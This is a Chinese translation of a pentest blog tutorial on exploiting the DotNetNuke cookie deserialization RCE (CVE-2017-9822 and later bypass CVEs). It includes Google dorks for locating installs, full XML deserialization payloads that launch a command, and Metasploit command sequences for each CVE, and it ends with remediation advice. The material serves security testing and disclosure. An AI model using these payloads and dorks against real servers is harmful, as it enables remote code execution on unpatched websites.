

# 如何利用 DotNetNuke Cookie 反序列化| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization>

我们观察了大约 300 个野外 DotNetNuke 部署，发现五分之一的安装容易受到 CVE-2017-9822 的攻击。这包括政府和银行网站。

**后期编辑【2020 年 6 月 11 日】:**作为这项研究的一部分，我们在美国国防部最大的网站之一发现了一个可通过 DNN Cookie 反序列化利用的远程代码执行漏洞。在负责任地通过 HackerOne 报告后，国防部解决了这个高严重性的漏洞，[披露了这份报告](https://hackerone.com/reports/876708)，所有细节现已公开。

为了帮助 pentesters 识别和报告这个问题，并帮助开发人员防止或修复它，我们创建了这个实用的深入研究这个在 DotNetNuke (DNN)中发现的 Cookie 反序列化 RCE 漏洞。

了解如何通过使用 Google dorks 在野外找到这个问题，确定指示 DotNetNuke web 应用程序易受攻击的因素，浏览实践示例，等等！

在我们开始之前，请记住该漏洞是在 CVE-2017-9822 下发布的，但开发团队一直未能修补它，因此他们发布了另外四个旁路:

*   CVE-2018-15811

*   CVE-2018-15812

*   CVE-2018-18325

*   CVE-2018-18326。

我们将在下面的步骤中讨论所有这些问题。

*准备好了吗？*就这么办吧！

## **1。DotNetNuke 是什么？**

DotNetNuke 是一个免费的开源 web CMS(内容管理系统),用 C#编写，基于。NET 框架。

据他们称，全球超过 750，000 个组织部署了由 DotNetNuke 支持的网络平台。它在互联网上如此受欢迎和广泛使用，因为您可以在几分钟内部署一个 DNN web 实例，而不需要大量的技术知识。DotNetNuke 的另一个重要功能是能够创建或导入用 built 或 C#构建的第三方定制模块。

您可以在包含 Windows Server、IIS、ASP.NET 和 SQL Server for Windows 的堆栈上安装 DNN。此外，DNN 支持通过电子邮件验证新用户的注册，但您需要配置一个有效的 SMTP 服务器，以便这项安全功能的工作。


*(安装后默认 DotNetNuke 索引页面)*

## **2。如何找到 DNN 安装使用谷歌黑客呆子**

您可以使用以下 Google 呆子在互联网上找到可用的部署，并根据 DotNetNuke Cookie 反序列化 CVE 测试它们:

```
inurl:dnn.js
inurl:dnn.modalpopup.js
inurl:dnn.servicesframework.js
inurl:dnn.xml.js
inurl:dnncore.js
inurl:/Portals/0/
inurl:/DesktopModules/
inurl:/DNNCorp/
inurl:/DotNetNuke
inurl:/tabid/*/Default.aspx
inurl:/tabid/*/language/*/Default.aspx
intext:"by DNN Corp "
```

## **3。漏洞概述**

### **什么是反序列化，反序列化有什么问题？**

反序列化是解释字节流并将它们转换成可由应用程序执行的数据的过程。

反序列化的主要问题是，大多数时候它需要用户输入。这意味着您可以在应用程序请求的格式中注入恶意制作的有效负载，并可能操纵其逻辑、泄露数据，甚至执行远程代码。

### **我如何利用 DNN cookie 反序列化？**

DotNetNuke 使用 DNNPersonalization cookie 来存储匿名用户的个性化选项(已验证用户的选项通过他们的个人资料页面存储)。当应用程序提供自定义 404 错误页面时，将使用此 cookie，这也是默认设置。


*(默认 DotNetNuke 404 错误状态页面)*

您可以从分析应用程序如何处理 DNNPersonalization cookie XML 值的易受攻击的源代码开始。


*(/DNN 平台/库/公共/实用工具/XmlUtils.cs)*

程序寻找`item` XML 节点的`key`和`type`属性。基于提取的类型，它使用`XmlSerializer`创建一个序列化器。因为 XML cookie 值可以由用户通过请求头提供，所以可以控制`XmlSerializer` *的类型。*

**XmlSerializer** 的一个很大的约束是它不能处理有接口成员的类型(例如:`System.Diagnostic.Process`)。相反，您可以使用 **ObjectDataProvider** 并使用属于以下类之一的方法构建有效负载:

```
<
<key="pentest-tools.com" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
    <ExpandedElement/>
    <MethodName>Parse</MethodName>
    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
        <ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'>
            <ObjectDataProvider x:Key='LaunchCmd' ObjectType='{x:Type Diag:Process}' MethodName='Start'>
                <ObjectDataProvider.MethodParameters>
                    <System:String>cmd</System:String>
                    <System:String>/c calc</System:String>
                </ObjectDataProvider.MethodParameters>
            </ObjectDataProvider>
        </ResourceDictionary>
    </anyType>
</MethodParameters>
<ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
</item>
</profile>
```

```
<profile>
    <item key="pentest-tools.com" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
        <ExpandedWrapperOfObjectStateFormatterObjectDataProvider xmlns:xsd=" [http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema) " xmlns:xsi=" [http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance) ">
        <ExpandedElement/>
        <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xsi:type="xsd:string">/wEy3hgAAQAAAP////8BAAAAAAAAAAwCAAAAX1N5c3RlbS5NYW5hZ2VtZW50LkF1dG9tYXRpb24sIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAAAlU3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5QU09iamVjdAEAAAAGQ2xpWG1sAQIAAAAGAwAAAKUXPE9ianMgVmVyc2lvbj0iMS4xLjAuMSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vcG93ZXJzaGVsbC8yMDA0LzA0Ij4NCiAgJiN4RDsNCiAgPE9iaiBSZWZJZD0iMCI+DQogICAgJiN4RDsNCiAgICA8VE4gUmVmSWQ9IjAiPg0KICAgICAgJiN4RDsNCiAgICAgIDxUPk1pY3Jvc29mdC5NYW5hZ2VtZW50LkluZnJhc3RydWN0dXJlLkNpbUluc3RhbmNlI1N5c3RlbS5NYW5hZ2VtZW50LkF1dG9tYXRpb24vUnVuc3BhY2VJbnZva2U1PC9UPiYjeEQ7DQogICAgICA8VD5NaWNyb3NvZnQuTWFuYWdlbWVudC5JbmZyYXN0cnVjdHVyZS5DaW1JbnN0YW5jZSNSdW5zcGFjZUludm9rZTU8L1Q+JiN4RDsNCiAgICAgIDxUPk1pY3Jvc29mdC5NYW5hZ2VtZW50LkluZnJhc3RydWN0dXJlLkNpbUluc3RhbmNlPC9UPiYjeEQ7DQogICAgICA8VD5TeXN0ZW0uT2JqZWN0PC9UPiYjeEQ7DQogICAgPC9UTj4mI3hEOw0KICAgIDxUb1N0cmluZz5SdW5zcGFjZUludm9rZTU8L1RvU3RyaW5nPiYjeEQ7DQogICAgPE9iaiBSZWZJZD0iMSI+DQogICAgICAmI3hEOw0KICAgICAgPFROUmVmIFJlZklkPSIwIiAvPiYjeEQ7DQogICAgICA8VG9TdHJpbmc+UnVuc3BhY2VJbnZva2U1PC9Ub1N0cmluZz4mI3hEOw0KICAgICAgPFByb3BzPg0KICAgICAgICAmI3hEOw0KICAgICAgICA8TmlsIE49IlBTQ29tcHV0ZXJOYW1lIiAvPiYjeEQ7DQogICAgICAgIDxPYmogTj0idGVzdDEiIFJlZklkPSIyMCI+DQogICAgICAgICAgJiN4RDsNCiAgICAgICAgICA8VE4gUmVmSWQ9IjEiPg0KICAgICAgICAgICAgJiN4RDsNCiAgICAgICAgICAgIDxUPlN5c3RlbS5XaW5kb3dzLk1hcmt1cC5YYW1sUmVhZGVyW10sIFByZXNlbnRhdGlvbkZyYW1ld29yaywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzU8L1Q+JiN4RDsNCiAgICAgICAgICAgIDxUPlN5c3RlbS5BcnJheTwvVD4mI3hEOw0KICAgICAgICAgICAgPFQ+U3lzdGVtLk9iamVjdDwvVD4mI3hEOw0KICAgICAgICAgIDwvVE4+JiN4RDsNCiAgICAgICAgICA8TFNUPg0KICAgICAgICAgICAgJiN4RDsNCiAgICAgICAgICAgIDxTIE49Ikhhc2giPg0KICAgICAgICAgICAgICAmbHQ7UmVzb3VyY2VEaWN0aW9uYXJ5DQogICAgICAgICAgICAgIHhtbG5zPSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbC9wcmVzZW50YXRpb24iDQogICAgICAgICAgICAgIHhtbG5zOng9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sIg0KICAgICAgICAgICAgICB4bWxuczpTeXN0ZW09ImNsci1uYW1lc3BhY2U6U3lzdGVtO2Fzc2VtYmx5PW1zY29ybGliIg0KICAgICAgICAgICAgICB4bWxuczpEaWFnPSJjbHItbmFtZXNwYWNlOlN5c3RlbS5EaWFnbm9zdGljczthc3NlbWJseT1zeXN0ZW0iJmd0Ow0KICAgICAgICAgICAgICAmbHQ7T2JqZWN0RGF0YVByb3ZpZGVyIHg6S2V5PSJMYXVuY2hDYWxjIiBPYmplY3RUeXBlPSJ7eDpUeXBlIERpYWc6UHJvY2Vzc30iIE1ldGhvZE5hbWU9IlN0YXJ0IiZndDsNCiAgICAgICAgICAgICAgJmx0O09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzJmd0Ow0KICAgICAgICAgICAgICAmbHQ7U3lzdGVtOlN0cmluZyZndDtjbWQmbHQ7L1N5c3RlbTpTdHJpbmcmZ3Q7DQogICAgICAgICAgICAgICZsdDtTeXN0ZW06U3RyaW5nJmd0Oy9jICJjYWxjIiZsdDsvU3lzdGVtOlN0cmluZyZndDsNCiAgICAgICAgICAgICAgJmx0Oy9PYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycyZndDsNCiAgICAgICAgICAgICAgJmx0Oy9PYmplY3REYXRhUHJvdmlkZXImZ3Q7DQogICAgICAgICAgICAgICZsdDsvUmVzb3VyY2VEaWN0aW9uYXJ5Jmd0Ow0KICAgICAgICAgICAgPC9TPiYjeEQ7DQogICAgICAgICAgPC9MU1Q+JiN4RDsNCiAgICAgICAgPC9PYmo+JiN4RDsNCiAgICAgIDwvUHJvcHM+JiN4RDsNCiAgICAgIDxNUz4NCiAgICAgICAgJiN4RDsNCiAgICAgICAgPE9iaiBOPSJfX0NsYXNzTWV0YWRhdGEiIFJlZklkPSIyIj4NCiAgICAgICAgICAmI3hEOw0KICAgICAgICAgIDxUTiBSZWZJZD0iMSI+DQogICAgICAgICAgICAmI3hEOw0KICAgICAgICAgICAgPFQ+U3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdDwvVD4mI3hEOw0KICAgICAgICAgICAgPFQ+U3lzdGVtLk9iamVjdDwvVD4mI3hEOw0KICAgICAgICAgIDwvVE4+JiN4RDsNCiAgICAgICAgICA8TFNUPg0KICAgICAgICAgICAgJiN4RDsNCiAgICAgICAgICAgIDxPYmogUmVmSWQ9IjMiPg0KICAgICAgICAgICAgICAmI3hEOw0KICAgICAgICAgICAgICA8TVM+DQogICAgICAgICAgICAgICAgJiN4RDsNCiAgICAgICAgICAgICAgICA8UyBOPSJDbGFzc05hbWUiPlJ1bnNwYWNlSW52b2tlNTwvUz4mI3hEOw0KICAgICAgICAgICAgICAgIDxTIE49Ik5hbWVzcGFjZSI+U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbjwvUz4mI3hEOw0KICAgICAgICAgICAgICAgIDxOaWwgTj0iU2VydmVyTmFtZSIgLz4mI3hEOw0KICAgICAgICAgICAgICAgIDxJMzIgTj0iSGFzaCI+NDYwOTI5MTkyPC9JMzI+JiN4RDsNCiAgICAgICAgICAgICAgICA8UyBOPSJNaVhtbCI+Jmx0O0NMQVNTIE5BTUU9IlJ1bnNwYWNlSW52b2tlNSImZ3Q7Jmx0O1BST1BFUlRZIE5BTUU9InRlc3QxIiBUWVBFPSJzdHJpbmciJmd0OyZsdDsvUFJPUEVSVFkmZ3Q7Jmx0Oy9DTEFTUyZndDs8L1M+JiN4RDsNCiAgICAgICAgICAgICAgPC9NUz4mI3hEOw0KICAgICAgICAgICAgPC9PYmo+JiN4RDsNCiAgICAgICAgICA8L0xTVD4mI3hEOw0KICAgICAgICA8L09iaj4mI3hEOw0KICAgICAgPC9NUz4mI3hEOw0KICAgIDwvT2JqPiYjeEQ7DQogICAgPE1TPg0KICAgICAgJiN4RDsNCiAgICAgIDxSZWYgTj0iX19DbGFzc01ldGFkYXRhIiBSZWZJZD0iMiIgLz4mI3hEOw0KICAgIDwvTVM+JiN4RDsNCiAgPC9PYmo+JiN4RDsNCjwvT2Jqcz4L</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="ObjectStateFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfObjectStateFormatterObjectDataProvider>
</item>
</profile>
```

*   **DotNetNuke**。*、这可能导致无限制的文件上传、任意文件读取、文件删除和各种其他操作。您可以在下面看到一个示例负载，使用`DotNetNuke.Common.Utilities.FileSystemUtils` 类的`WriteFile`方法，从目标系统读取文件。

第一个也是最初的漏洞被标识为[**CVE-2017-9822**](https://www.cvedetails.com/cve/CVE-2017-9822/)。在此之后，其他四个 CVE 基于相同的问题发布，DotNetNuke Cookie 反序列化 RCE，但他们只是绕过了第一个 CVE 补丁的失败尝试。下面几行将为您提供每个 DNN Cookie 反序列化 CVE 的详细信息、技术方面和易受攻击的版本。

### [**CVE-2017-9822**](https://www.cvedetails.com/cve/CVE-2017-9822/):DotNetNuke 9 . 1 . 1 之前的远程代码执行

影响 DotNetNuke 版本 5.0.0 到 9.1.0。通过 404 错误页面内的`DNNPersonalization` cookie 传递恶意有效负载，攻击就变得简单了。

应用程序将解析 XML 输入，反序列化并执行它。你不必绕过任何修补机制。

如果您想通过 Metasploit 模块(可通过 [Exploit-DB](https://www.exploit-db.com/exploits/48336) 获得)利用 DotNetNuke Cookie 反序列化，您只需设置目标主机、目标端口和特定的有效负载，如下所示:

```
msfconsole
msf5 > use exploit/windows/http/dnncookiedeserialization_rce
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RHOSTS <TARGET>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RPORT <TARGET PORT>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set payload <PAYLOAD>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGETURI <404 ERROR PAGE>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGET 1
msf5 exploit(windows/http/dnncookiedeserialization_rce) > check
```

如果您在运行检查后收到“目标似乎易受攻击”消息，您可以通过在 Metasploit 控制台中输入“exploit”命令来继续。

<template x-if="showVideo"></template>

你也可以使用 ysoserial 工具中的 DotNetNuke 模块来定制有效载荷。要上传一个 web shell 并从中执行命令，请将其放在 DotNetNuke Exploit DB 模块中，并将其导入到 Metasploit 中——就像我们在演示中所做的那样。

<template x-if="showVideo"></template>

### [**CVE-2018-15811**](https://www.cvedetails.com/cve/CVE-2018-15811/):DotNetNuke 9 . 1 . 1 中的远程代码执行

第一个补丁包含一个 DES 实现，这是一个易受攻击的弱加密算法。加密密钥也表现出较差的随机性水平(低熵)。当您通过使用验证注册的 DotNetNuke 应用程序注册时，此加密方案用于加密发送到电子邮件的 DNNPersonalization cookie 和注册码。不管[CVE 官方细节](https://www.cvedetails.com/cve/CVE-2018-15811/)，这个问题只影响 9.1.1 DNN 版本。

注册码是应用程序中使用的`portalID` 和`userID` 变量的加密形式，通过用户配置文件以明文形式公开。

您可以通过注册新用户并查看您的电子邮件来收集验证码。您必须以新用户的身份登录，导航到“编辑配置文件”页面，检查源代码，并搜索`userID`和`portalID`的值(可能会返回负值),从而获得该代码的未加密格式。继续搜索直到找到一个正整数)。有了加密和明文代码，您就可以发起已知明文攻击，并用恢复的密钥加密您的有效载荷。


*(编辑个人资料页面源代码)*

如果您想通过 Metasploit 模块利用这个 CVE，您必须首先设置目标主机、目标端口、有效负载、加密验证码和明文验证码。

```
msfconsole
msf5 > use exploit/windows/http/dnncookiedeserialization_rce
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RHOSTS <TARGET>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RPORT <TARGET PORT>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set payload <PAYLOAD>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGETURI <404 ERROR PAGE>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONCODE <ENCRYPTED>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONPLAIN <PLAINTEXT>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set ENCRYPTED true
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGET 2
msf5 exploit(windows/http/dnncookiedeserialization_rce) > check
The VERIFICATION_PLAIN value is in the following format: portalID-userID
```

如果您在运行检查后收到“目标似乎易受攻击”消息，您可以通过在 Metasploit 控制台中输入“exploit”命令来继续。

<template x-if="showVideo"></template>

### [**CVE-2018-15812**](https://www.cvedetails.com/cve/CVE-2018-15811/):DotNetNuke 9.2 到 9.2.1 中的远程代码执行

[CVE-2018-15811](https://github.com/dnnsoftware/Dnn.Platform/tree/v9.2.0) 的补丁增加了会话 cookie 作为加密方案的参与者。因此，除了目标主机、目标端口、有效负载、加密验证码和明文验证码之外，您还必须设置。您在 Metasploit 控制台中注册的用户的 DOTNETNUKE cookie。

你可以在 9.2.0 到 9.2.1 的 DotNetNuke 版本中找到这个漏洞。

```
msfconsole
msf5 > use exploit/windows/http/dnncookiedeserialization_rce
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RHOSTS <TARGET>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RPORT <TARGET PORT>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set payload <PAYLOAD>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGETURI <404 ERROR PAGE>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONCODE <ENCRYPTED>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONPLAIN <PLAINTEXT>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set SESSIONTOKEN <.DOTNETNUKE>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set ENCRYPTED true
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGET 3
msf5 exploit(windows/http/dnncookiedeserialization_rce) > check
```

VERIFICATION_PLAIN 值采用相同的格式。

如果在运行检查后返回消息“目标似乎易受攻击”，您可以通过在 Metasploit 控制台中输入“exploit”命令来继续。

上一次失败的修补尝试是对 DNNPersonalization cookie 和验证码使用不同的加密密钥。这个想法听起来很好，也很有效，除非 DNNPersonalization 密钥是从注册码加密密钥派生出来的。但是，如果加密算法被更改为更强的最新算法，这应该不是一个大问题。

哦，等等…我忘了说加密保持不变(DES ),没有任何改变。

你可以在 9.2.2 到 9.3.0-RC 的 DotNetNuke 中找到这些问题。

同样，通过这个补丁，`userID` 变量不再以明文格式公开，现在被加密，但是`portalID`仍然以未加密格式显示。您仍然可以通过收集各种新创建的用户的验证码列表，对他们发起部分已知明文攻击，并减少有效加密密钥的可能数量来检索加密密钥。之后，你必须尝试每一个潜在的关键，直到你找到一个工作。

这个过程将需要一点时间，这取决于您收集的加密注册码的数量。

```
msfconsole
msf5 > use exploit/windows/http/dnncookiedeserialization_rce
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RHOSTS <TARGET>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set RPORT <TARGET PORT>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set payload <PAYLOAD>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGETURI <404 ERROR PAGE>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONCODE <FILE PATH>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set VERIFICATIONPLAIN <PORTALID>
msf5 exploit(windows/http/dnncookiedeserializationrce) > set SESSIONTOKEN <.DOTNETNUKE>
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set ENCRYPTED true
msf5 exploit(windows/http/dnncookiedeserialization_rce) > set TARGET 4
msf5 exploit(windows/http/dnncookiedeserialization_rce) > check
```

VERIFICATION_CODE 值是本地文件的完整路径，该文件包含您从注册用户处收集的代码。

您必须通过 VERIFICATION_PLAIN 变量解析明文`portalID` ，您可以通过检查任何用户设置页面中“编辑个人资料”页面的源代码来提取该变量。

最后，如果在运行检查后返回“目标似乎易受攻击”的消息，您可以通过在 Metasploit 控制台中输入“exploit”命令来继续。你必须预料到这个过程需要几分钟，甚至几个小时。

<template x-if="showVideo"></template>

您可以通过将 DotNetNuke 部署升级到最新版本来消除此漏洞。

如果您不想更新，而更喜欢使用当前版本，那么您必须更改用户触发 404 错误后将被重定向到的页面(主页是一个常见的建议)。

要做到这一点，登录到管理帐户，导航到“管理”->“网站设置”->“高级设置”，并寻找“404 错误页面”下拉菜单。


## **4。最后的想法**

我们分析了大约 300 个部署在野外的 DotNetNuke，发现五分之一的安装容易受到这个问题的攻击，包括政府和银行网站。我们还尽可能报告了这些问题。


*( [五角大楼 HackerOne Bug 赏金计划中的 DotNetNuke Cookie 反序列化](https://hackerone.com/reports/876708) )*



*(政府网站中 DotNetNuke Cookie 反序列化)*

**您的 DNN 部署容易受到攻击吗？**

使用[我们的网站扫描器](https://pentest-tools.com/website-vulnerability-scanning/website-scanner)定期扫描您的 web 应用程序，并发现其他常见的 web 应用程序漏洞和服务器配置问题。

免费试用扫描仪，并亲自查看！